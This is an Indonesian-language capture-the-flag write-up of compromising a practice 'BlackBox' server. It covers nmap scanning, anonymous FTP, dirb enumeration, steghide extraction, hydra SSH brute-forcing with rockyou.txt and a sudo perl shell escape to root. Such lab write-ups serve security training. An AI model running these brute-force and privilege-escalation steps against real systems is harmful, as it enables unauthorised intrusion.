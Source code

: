 # Laporan Serangan Server BlackBox

Ini adalah hasil serangan yang telah dilakukan pada server BlackBox untuk latihan serangan.

## Pencarian IP Address Server

- cek ip pc : `ip a` atau `ifconfig` 
- nmap: `nmap -sP <network_id>/<prefix>`
- uji koneksi, kali linux dan server blackbox: `ping <ip_server>`

## Scan Port Server dengan NMAP
- nmap : `nmap <ip_server>`

**Port** yang terbuka dari server adalah :
- ftp (21)
- ssh (22)
- http (80)

## Access FTP dengan mode Anonymous
- buka filezilla
- install filezilla (jika belum ada) : `sudo apt install filezilla
- isi host : `<ip>` dan port : `21` Username dan Password kosong
- download gambar png yang tertera

## Cari semua Link public dari http (80)
- pakai tool dirb : `http:://<ip>`

## Temukan Petunjuk
- akses semua link yang ditemukan
- pada blog terdapat secret directory
- pada secret directory terdapat secret key

## Pentunjuk didalam Gambar PNG
- tool steghide
- install (jika belum) : `sudo apt install steghide`
- cara petunjuk : `steghide --extract -sf trytofind.jpg`
- masukkan passphrase dengan secret key yang ditemukan
- buka file hasil extract
- maka user ditemukan : `remu`

## Access SSH
- username telah ditemukan
- password, bruteforce dengan hydra
- cari file list password : `rockyou.txt`
- hydra : `hydra -l <user> -P <file>.txt ssh://<ip>`
- password ditemukan : `987654321`
- login server : `ssh remu@<ip>`

## Cari Flag
Setelah berhasil masuk server blackbox pada segera temukan flag
### Flag 1
- terdapat pada user remu
### Flag 2
- terdapat pada user lily
### Flag 3
- terdapat pada user root
- user remu tidak dapat akses root, oleh karena itu pindah user lily
- dari ssh remu, langsung ssh lagi ke lily : `ssh lily@<ip>`, tanpa password
- lily dapat mengakses root, karena kita tidak tahu password lily, maka gunakan exploit dengan perl
```
sudo perl -e ' exec "/bin/sh"; '
```
